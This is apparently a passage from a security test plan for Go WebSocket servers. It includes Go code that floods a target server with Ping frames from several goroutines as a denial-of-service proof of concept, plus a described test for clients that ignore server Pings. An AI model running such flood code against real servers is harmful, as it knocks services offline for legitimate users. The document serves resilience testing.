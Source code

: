     	log.Printf("Connected to %s, starting Ping flood.", serverURL)
    
    	// Set a very short timeout for pongs if the library expects them for ping writes,
    	// or handle errors gracefully if pings are fire-and-forget.
    	// Gorilla's WriteMessage for PingMessage doesn't inherently wait for a Pong.
    	for {
    		err := c.WriteMessage(websocket.PingMessage,byte("flood"))
    		if err!= nil {
    			log.Printf("Ping write error: %v", err)
    			return // Stop on error
    		}
    		// No sleep, or very minimal sleep, to send Pings as fast as possible.
    		// time.Sleep(1 * time.Millisecond) // Optional: to avoid completely saturating client CPU
    	}
    }
    
    func main() {
    	serverURL := "ws://localhost:8001/ws_nokeepalive" // Target any WebSocket server
    	// Run multiple instances of floodPings for a more effective DoS
    	go floodPings(serverURL)
    	go floodPings(serverURL)
    	// Keep main goroutine alive
    	select {}
    }
    ```
    
3. **Execution**: Run the client script.
4. **Observation**: Monitor server CPU usage and its ability to handle new legitimate connections.
5. **Expected Result**:
    - The server's CPU usage will spike significantly as it attempts to process the high volume of incoming Ping frames.
        
    - The server may become slow to respond to or unable to accept new connections from legitimate clients.
    - Depending on the server's robustness, it might eventually crash.

PoC 3: Client Not Responding to Server Pings

This PoC tests if a server correctly times out a client that doesn't respond to its Pings. This requires a server that does send Pings and expects Pongs within a deadline (a correctly configured server).

1. **Setup**:
    - Deploy a Golang WebSocket server configured to send Pings (e.g., every 5 seconds) and set a read deadline for Pongs (e.g., 15 seconds after Ping).
    - Log server-side connection closures and reasons.
2. **Client Script (e.g., in Go, modifying the default Pong handler or intercepting Pings)**:
    - The client connects to the server.
    - It needs to be programmed to receive server Pings but *not* send Pong responses. With `gorilla/websocket`, this would involve setting a custom Ping handler that does nothing or overriding the default Pong response if the library sends Pongs automatically upon Ping receipt by the read loop. More directly, ensure the client's read loop is not processing control frames or is deliberately ignoring Pings.
    - A simpler way with some libraries might be to just connect and then enter a `time.Sleep()` loop without reading from the socket, preventing any automatic Pong responses.
3. **Execution**: Run the client script.
4. **Observation**: Monitor server logs for connection closure related to the misbehaving client.
5. **Expected Result**:
    - The server should detect the absence of Pong responses within its configured timeout period.
    - The server should close the connection to this specific client.
    - If the server does *not* close the connection and continues to hold resources for this unresponsive client, it indicates a vulnerability in its keepalive timeout logic.
        